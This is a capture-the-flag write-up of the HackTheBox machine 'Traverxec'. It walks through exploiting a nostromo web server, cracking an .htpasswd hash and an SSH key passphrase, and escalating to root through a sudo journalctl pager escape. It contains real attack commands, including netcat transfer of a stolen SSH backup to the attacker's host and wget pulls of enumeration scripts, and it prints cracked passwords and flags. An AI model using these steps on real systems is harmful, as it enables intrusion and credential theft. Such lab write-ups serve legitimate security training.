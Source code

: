 # Traverxec

Author: Ewaël

**Traverxec** is an easy HackTheBox box by jkr.

`nmap -sC -sV -oN nmap 10.10.10.165 -v -A` shows ports 22 and 80 are open. Let's check the website first.

![site](site.png)

After moving around without finding anything interesting I see the website version is `no stromo 1.9.6` in the nmap results.

```
$ searchsploit nostromo
...
nostromo 1.9.6 - Remote Code Execution | multiple/remote/47837.py
...
```

I decide to use it through metasploit after setting `RHOSTS` and `LHOST` correctly and it successfully spawns a shell as `www-data`.

## Privilege escalation

First of all I use `python -c 'import pty; pty.spawn("/bin/bash")'` to get a nicer shell and I start looking for privilege escalation related stuff like `sudo -l` or SUID files but I don't find anything useful. I find a hashed password in `/var/nostromo/conf/.htpasswd`:

```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

`david` is the machine user so I decide to crack the password with john:

```
john --wordlist=/usr/share/wordlists/rockyou.txt david
```

It returns `Nowonly4me` as the password but it does not help me as this password is not `david`'s password and does not work for the `sudo` password either. As this point I have no idea what to do so I decide to try some enumeration.

`wget` is available on the machine but `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` does not work. I decide to download it on host in order to get it from there because the github link seemed to be the problem on the machine. Indeed, doing `python -m SimpleHTTPServer 80` on host and `wget http://10.10.14.34/LinEnum.sh` on the box successfully downloads the script.

After executing it and not finding anything useful I do the same thing with `linpeas.sh` but I get the same results. The only interesting file is the password I already cracked.

Going back to `/var/nostromo/conf` I realize that I ignored a file named `nhttp.conf`:

```
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```

I see that `homedirs` lines and after some searching I realize that I can access `/home/david/public_www`. I download a compressed file in `/home/david/public_www/protected-file-area` named `backup-ssh-identity-files.tgz` with 

```
$ nc -lvnp 4444 > backup-ssh-identity-files.tgz             // on host
$ nc 10.10.14.34 4444 < backup-ssh-identity-files.tgz`      // on box
```

This file contains the `david` private ssh key. I crack the passphrase with john again:

```
$ python /usr/share/john/ssh2john.py id_rsa > david_hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt david_hash
```

`hunter` seems to be the passphrase. I log to the machine as `david` with his private key and passphrase and I get the user flag:

`7db0b48469606a42cec20750d9782f3d`

I still can't run `sudo -l` because neither `hunter` nor `Nowonly4me` are the correct passwords. There is a script in /home/david/bin named `server-stats.sh`:

```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It shows that I can run `journalctl` with root rights using `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`. A quick search on [GTFOBins](https://gtfobins.github.io) shows me on to pop a root shell using `!/bin/sh` in the `less`. I can now read the root flag:

`9aa36a6d76f785dfd320a478f6e0d906`
